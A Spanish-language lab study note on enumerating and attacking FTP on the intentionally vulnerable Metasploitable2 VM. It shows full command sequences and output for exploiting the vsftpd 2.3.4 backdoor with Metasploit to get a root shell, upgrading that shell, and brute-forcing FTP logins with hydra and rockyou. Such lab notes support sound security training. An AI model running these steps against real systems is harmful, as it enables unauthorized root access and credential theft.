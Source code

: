 Parte de [[Enumeracion de Servicios]]

Es un protocolo donde la informacion se trasmite en claro, para poder enumerar FTP se requiere un usuario valido en el servicio, no obstante a veces existe el usuario Anonymous

En el caso de metasploitable2, podemos:

``` bash
ftp 192.168.56.102
Connected to 192.168.56.102.
220 (vsFTPd 2.3.4)
Name (192.168.56.102:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Comandos de ftp serian:
- help: ver todos los comandos
- help {comando}: ver que hace un comando
- pwd: ver directorio
- dir / ls: ver directorio
- !: ejecutar comandos en la maquina local (!ls para listar la maquina local)
- put: intentar subir ficheros
- get: Descargar fichero
- mget: Descargar ficheros masivamente
- put: subir ficheros
- mput: subir ficheros masivamente
- mkdir: crear carpetas
- rm: borrar

Como en todos los servicios es importante saber el tipo de servidor FTP y su version.

Si estamos en una situacion en la que estamos en un carpeta sin nada, significa que podriamos estar enjaulados (es decir: en una carpeta del sistema que no contiene nada y no poder salir a carpetas superiores)(ver termino: **chrooted**), podemos intentar escapar usando cd con rutas relativas o absolutas. Tambien se debe comprobar si podemos subir o bajar (en caso de que la carpeta este vacia, obviamente no) archivos.

Por ejemplo en el caso de metasploitable 2:


```
ftp> pwd
Remote directory: /
ftp> cd ..
250 Directory successfully changed.
ftp> pwd
Remote directory: /
ftp> dir
229 Entering Extended Passive Mode (|||30797|).
150 Here comes the directory listing.
226 Directory send OK.
ftp> 
```

Estamos en un sistema Linux, aparentemente en la carpeta raiz pero sin ninguna subcarpeta  (donde deberiamos tener etc, dev, home...). Esto es señal de que estamos enjaulados.

En FTP tienes los permisos del usuario con el que este logeado, si por ejemplo tu usario no puede escribir en /etc, no podras hacer put, pero si podras en /home/{tuUsuario} por ejemplo.

---

### Ejercicio: Encontrar todos los scripts de nmap que tengan que ver con FTP y ver si hay alguno relacionado con vsFTPd:

Comando:

``` bash
ls /usr/share/nmap/scripts | grep ftp
```

Resultado:

``` bash
ftp-anon.nse
ftp-bounce.nse
ftp-brute.nse
ftp-libopie.nse
ftp-proftpd-backdoor.nse
ftp-syst.nse
ftp-vsftpd-backdoor.nse
ftp-vuln-cve2010-4221.nse
tftp-enum.nse
tftp-version.nse
```

Ahora lanzaremos ftp-vsftpd-backdoor.nse:

``` bash
sudo nmap -Pn --script ftp-vsftpd-backdoor.nse 192.168.56.102
```

Resultado:

``` java
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-23 18:14 CET
Nmap scan report for 192.168.56.102
Host is up (0.00015s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  BID:48539  CVE:CVE-2011-2523
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|       https://www.securityfocus.com/bid/48539
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|_      https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
MAC Address: 08:00:27:7B:8B:9E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.43 seconds
```

En resumen, es vulnerable.

Ahora para su explotacion, usaremos metasploit:

``` bash
use exploit/unix/ftp/vsftpd_234_backdoor 
```

Configuramos:

``` bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using
                                       -metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.102
RHOSTS => 192.168.56.102
```

Ahora podemos simplemente lanzar el exploit:

``` bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - USER: 331 Please specify the password.
[+] 192.168.56.102:21 - Backdoor service has been spawned, handling...
[+] 192.168.56.102:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.56.100:44239 -> 192.168.56.102:6200) at 2025-01-23 18:18:34 +0100

whoami
root
pwd
/
```

Somos root, una buena idea ahora podria ser avanzar la sesion de bash a meterpreter.

Antes de eso, vamos a mejorar la dumb shell a una shell completamente interactiva:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Y listo, realmente esta maquina estaria completamente comprometida y tenemos una interaccion usable, otras opciones serian crear un cronjob con ssh o una reverse shell para persistencia.

En otro ejercicio:

>Crear un fichero llamado usuarios.txt con los usuarios ftp, service y sys y realizar un ataque de fuerza bruta de contraseñas con rockyou

``` bash
hydra -L usuarios.txt -P rockyou.txt ftp://192.168.56.102:21 -e nsr -t 5
```

En el resultado:

``` java
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-23 18:33:32
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 5 tasks per 1 server, overall 5 tasks, 43033206 login tries (l:3/p:14344402), ~8606642 tries per task
[DATA] attacking ftp://192.168.56.102:21/
[21][ftp] host: 192.168.56.102   login: ftp
[21][ftp] host: 192.168.56.102   login: ftp   password: ftp
[21][ftp] host: 192.168.56.102   login: ftp   password: ptf
[21][ftp] host: 192.168.56.102   login: ftp   password: 123456
[21][ftp] host: 192.168.56.102   login: ftp   password: 12345
[21][ftp] host: 192.168.56.102   login: service   password: service
[STATUS] 28688890.00 tries/min, 28688890 tries in 00:01h, 14344316 to do in 00:01h, 5 active
[STATUS] 14344485.50 tries/min, 28688971 tries in 00:02h, 14344235 to do in 00:01h, 5 active
[STATUS] 9563018.67 tries/min, 28689056 tries in 00:03h, 14344150 to do in 00:02h, 5 active
[STATUS] 7172286.25 tries/min, 28689145 tries in 00:04h, 14344061 to do in 00:02h, 5 active
[STATUS] 5718784.78 tries/min, 28689237 tries in 00:05h, 14343969 to do in 00:03h, 5 active
[STATUS] 4088753.30 tries/min, 28689419 tries in 00:07h, 14343787 to do in 00:04h, 5 active

```

FTP admite varias contraseñas, esto es por el inicio de sesion con anonymous de ftp.